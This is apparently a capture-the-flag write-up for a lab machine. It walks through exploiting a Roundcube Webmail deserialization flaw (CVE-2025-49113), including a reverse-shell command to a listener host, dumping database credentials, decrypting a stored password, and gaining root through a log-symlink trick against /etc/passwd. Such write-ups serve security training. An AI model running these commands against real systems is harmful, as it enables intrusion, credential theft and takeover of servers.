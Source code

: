 Let's scan the car:
```bash
sudo nmap -v -sC -sV 10.10.11.77 -oN nmap/initial
```
```bash
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_ 256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The machine description contains the following credentials: `tyler / LhKL1o9Nm3X2`. Let's log in under them:

![image](images/20250722193848.png)

<div style="page-break-after: always;"></div>

We get to the mail application

![image](images/20250722194931.png)

In `About` we see that it is `Roundcube Webmail 1.6.10`. Let's try to find something about it on the Internet.
There is an article by **Offsec**: https://www.offsec.com/blog/cve-2025-49113/
There is also a link to the exploit: https://github.com/fearsoff-org/CVE-2025-49113
We exploit this vulnerability:
```bash
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.14.164/4444 0>&1'"
```
```bash
sudo ncat -lvnp 4444
```

![image](images/20250722201216.png)

#### How it works
There is endpoint `program/actions/settings/upload.php`, which handles uploading an avatar/signature from the **Settings → Identities** menu.
The request itself looks like this:

![image](images/20250722215206.png)

The code reads the `_from` parameter like this:
```PHP
$from = rcube_utils::get_input_string('_from', rcube_utils::INPUT_GET);
$type = preg_replace('/(add|edit)-/', '', $from);
…
$rcmail->session->append($type.'.files', $id, $attachment);
```
The `|` symbol is not filtered in any way. `$type` is then used as the **key name in the PHP session**.
<div style="page-break-after: always;"></div>

When writing to a file, each pair of the form `key | serialize(value)` is separated by the same `|` character. Therefore, if an attacker inserts `|` inside the key name, everything after it will end up in the file **as an already serialized value**.

The exploit does two things at once:
1. In the `_from` field, we slip `edit-identityO:34:"Crypt_GPG_Engine":1:{s:18:"\0*\0processString";s:⟨cmd⟩;}`.
2. Loads an image so that the code reaches `session->append()` and serialization becomes correct.

In the `Crypt_GPG` library supplied with Roundcube, the `Crypt_GPG_Engine` class in the destructor (`__destruct`) calls `proc_close()`/`proc_terminate()`, and before that it collects a command from the `processString` property.

**On the next HTTP request** PHP downloads (`session_decode`) the file, `unserialize()`s our object, magic methods are called, and the command from `processString` is executed on behalf of `www-data`.

Thus, one login to Roundcube + downloading the "picture" is enough to get a shell on the server.

Here's what it looks like:
```pgsql
┌──────────────┐
│  Attacker    │
│  (auth user) │
└────┬─────────┘
     │ 1. POST /settings/upload.php
     │    _from = edit-identity|O:34:"Crypt_GPG_Engine":…
     │    _file[name] = avatar.png
     ▼
┌────────────────────┐      2. PHP session writer
│  Roundcube PHP     │─────► "edit-identity" key |
│  (1st request)     │      O:34:"Crypt_GPG_Engine":…
└────────────────────┘
     ▲
     │ 3. Any follow-up request
     │
┌────────────────────┐      4. session_decode()
│  Roundcube PHP     │─────► unserialize() → object created
│  (2nd request)     │
│                    │      5. __destruct → proc_open("bash -c …")
└────────────────────┘
```


![image](images/20250722213256.png)

We got a reverse shell and looked at what users there are.
A `roundcube` directory was found, which contained a `config` directory. It contained files. The most interesting of them is `config.inc.php`:

![image](images/20250722212820.png)

Here we see the full `MySQL` credentials and the key that `Roundcube` uses to encrypt user passwords in the database - `rcmail-!24ByteDESkey*Str`.
The `roundcube/SQL` directory was found. Let's output what is in this database and see what is in the `users` table:
```bash
mysql -u roundcube -pRCDBPass2025 roundcube -e "SELECT * FROM users;"
```

![image](images/20250722205147.png)

There is no `password` in this table. Let's see what's in the `session` table:
```bash
mysql -u roundcube -pRCDBPass2025 roundcube -e "SELECT * FROM session;"
```

![image](images/20250722212357.png)

Here is the information encoded in `base64`. We decode it on the website https://cyberchef.io

![image](images/20250722213436.png)

```hash
L7Rv00A8TuwJAr67kITxxcSgnIk25Am/
```
We received an encrypted password. Most likely, it is decrypted using the same key that we found earlier. Let's write a **Python** script that will decrypt it:
```PHP
from base64 import b64decode
from Crypto.Cipher import DES3 # pip install pycryptodome

enc = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
key = b"rcmail-!24ByteDESkey*Str" # 24 bytes
data = b64decode(enc)

iv, ct = data[:8], data[8:]
cipher = DES3.new(key, DES3.MODE_CBC, iv)
plain = cipher.decrypt(ct).rstrip(b"\0") # zero-padding

print(plain.decode())
```

![image](images/20250722213834.png)

```Password
595mO8DmwGeD
```
After trying to connect to `jacob` via SSH with this password, the password did not work. Let's try to switch to this user via `su`:

![image](images/20250722214054.png)

<div style="page-break-after: always;"></div>

There is a `mail` directory. We go down the directories and see the letter:

![image](images/20250722214134.png)

A different password has appeared. Let's connect via SSH:
```
gY4Wr3a1evp4
```

![image](images/20250722213713.png)

```flag
cfd464e7fb6736f8dcf099c2cf95936b
```
Let's see what commands we can execute with `sudo`:

![image](images/20250722214341.png)

This is [CVE-2025-27591](https://security.opensuse.org/2025/03/12/below-world-writable-log-dir.html).
The idea is that when the vulnerable binary `below` runs, it writes to `error_jacob.log`, but since that log file now points to `/etc/passwd`, it ends up writing my fake user to that system file. Then run it and log in as root.

Create user `roo2` with password `1` (this password is obtained by `perl -e 'print crypt("1","aa")'`)
```shell
echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2
```
Delete the file with the error.
```shell
rm error_root.log
```
Link `/etc/passwd` to the file with the error, so that it is automatically created when the program runs, instead of the file with the error.
```shell
ln -s /etc/passwd /var/log/below/error_root.log
```
Run the script
```shell
sudo /usr/bin/below
```
Copy the fake user to the error log, and since we already linked the error log to `/etc/passwd`, it automatically goes to `/etc/passwd`.
```shell
cp root2 error_root.log
```
Change the user to our fake one. Enter the password `1`.
```shell
su root2
```

![image](images/20250722230357.png)

```flag
2c4aaa3f2080e5ef395c9f02382853e2
```
